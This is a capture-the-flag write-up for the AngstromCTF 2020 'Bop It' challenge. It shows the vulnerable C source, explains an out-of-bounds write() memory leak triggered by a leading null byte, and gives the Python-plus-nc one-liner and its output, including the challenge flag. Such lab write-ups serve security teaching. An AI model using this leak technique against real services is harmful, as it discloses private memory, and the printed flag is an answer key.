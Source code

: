 ```yaml
---
layout: post
title: AngstromCTF 2020 - Bop It
excerpt: "Writeup for memory leak challenge from AngstromCTF 2020"
categories: [angstromctf 2020]
---
```


Bop It was the third challenge in the Binary section of AngstromCTF. Although the bug was fairly simple, the challenge only accumulated 162 solves. The challenge supplies us with an executable and some source code (below).

{% highlight c %}
#include <stdlib.h>
#include <time.h>
#include <stdio.h>
#include <string.h>

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	const char *actions[] = {"Bop it!\n", "Twist it!\n", "Pull it!\n", "Flag it!\n"};

	srand(time(NULL));

	char c;
	char *action = actions[rand()%4];
	write(1, action, strlen(action));
	while ((c = getchar()) != EOF) {
		if (!strcmp(action, actions[3])) {
			char guess[256];
			guess[0] = c;
			int guessLen = read(0, guess+1, 255)+1; //add to already entered char
			guess[guessLen-1] = 0; //remove newline
			char flag[32];
			FILE *f = fopen("flag.txt", "rb");
			int r = fread(flag, 1, 32, f);
			flag[r] = 0; //null terminate
			if (strncmp(guess, flag, strlen(flag))) {
				char wrong[strlen(guess)+35];
				wrong[0] = 0; //string is empty intially
				strncat(wrong, guess, guessLen);
				strncat(wrong, " was wrong. Better luck next time!\n", 35);
				write(1, wrong, guessLen+35);
				exit(0);
			}
		} else if (c != action[0]) {
			char wrong[64] = "_ was wrong. What you wanted was _!\n";
			wrong[0] = c; //user inputted char
			wrong[strlen(wrong)-3] = action[0]; //correct char
			write(1, wrong, strlen(wrong));
			getchar(); //so there's no leftover newline
			exit(0);
		} else { getchar(); }
		action = actions[rand()%4];
		write(1, action, strlen(action));
	}
}
{% endhighlight %}

Upon first glance the code looks somewhat complicated. After some trial and error though, it is clear that there is a bug in the `write` call when action is "Flag It!". The variable `wrong` is initialized with a size of `strlen(guess)+35`, and is written to stdout. The problem is that the strlen function stops at null bytes, but the guessLen variable will not (it is set from the read function). Whener guessLen+35 gets larger than the `wrong` variable to be written, `write` will continue to give data after the end of the `wrong` buffer, and memory will be leaked. Seeing that the flag has been opened whenever this write is called reassures us that we are on the right track.

Since the exploit is simple I used inline python. You can see that it takes a few times before hitting the "Flag It!" action, but once we do memory is leaked.

```
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Twist it!
root@9903d51849b1 /pwn# python -c 'print "\x00" + "A" * 200' | nc shell.actf.co 20702
Flag it!
 was wrong. Better luck next time!
?GXU?GXU"?GXUactf{bopp1ty_bop_bOp_b0p}?"?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~      root@9903d51849b1 /pwn# 
```

In this string we can see `actf{bopp1ty_bop_bOp_b0p}` which is the flag to the challenge!